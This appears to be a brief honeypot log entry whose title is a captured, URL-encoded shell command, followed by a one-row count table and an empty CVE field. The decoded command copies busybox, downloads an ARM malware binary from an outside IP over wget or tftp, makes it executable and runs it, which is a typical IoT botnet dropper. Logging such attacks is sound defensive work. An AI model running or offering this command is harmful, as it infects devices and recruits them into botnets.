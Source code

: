 # Analysis for /shell%3Fcd%20%2Ftmp%3B%20echo%20%3ENiGGea%20%7C%7C%20cd%20%2Fvar%3B%20echo%20%3ENiGGea%3B%20cp%20%2Fbin%2Fbusybox%20yee%3B%20%3Eyee%3B%20chmod%20777%20yee%3B%20nohup%20wget%20http%3A%2F%5C%2F87.121.98.34%3A80%2Fillz%2Fmegumi.arm4%20-O%20yee%20%7C%7C%20nohup%20tftp%20-r%20megumi.arm4%20-g%2087.121.98.34%3A80%20-l%20yee%3B%20chmod%20777%20yee%3B.%2Fyee%3B%20rm%20-rf%20yeeter%20%3E%2Fdev%2Fnull%202%3E%261
| POTS | COUNT | CVE | FILE CREATED |
|---|---|---|---|
| 1 | 1 | | 220110-033755 |

## CVE: 